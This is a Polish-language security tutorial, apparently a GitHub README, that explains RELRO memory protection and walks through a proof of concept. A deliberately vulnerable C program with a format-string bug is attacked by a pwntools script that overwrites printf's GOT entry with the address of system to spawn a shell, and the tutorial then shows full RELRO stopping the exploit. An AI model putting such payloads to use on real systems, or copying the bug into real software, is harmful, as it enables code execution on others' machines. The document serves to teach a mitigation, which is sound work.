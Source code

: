 # RERLO

### 1.1 Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielnej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker dostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieja dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest defaultowym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT.

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 1.2 Proof of Concept - got overwrite with format string


Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32 -fno-stack-protector -no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyje exploitu typu `format string` ,który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji %3$x.

![img_1.png](img/img_1.png)

Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą cześć adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się.

Exploit odpalany z włączonym relro nie daje żadnego skutku - adres got znajduję się w innym miejscu. W przypadku próby nadpisania tego miejsca następuję `SIGSEGV` - chcieliśmy nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.

![img_6.png](img/img_6.png)

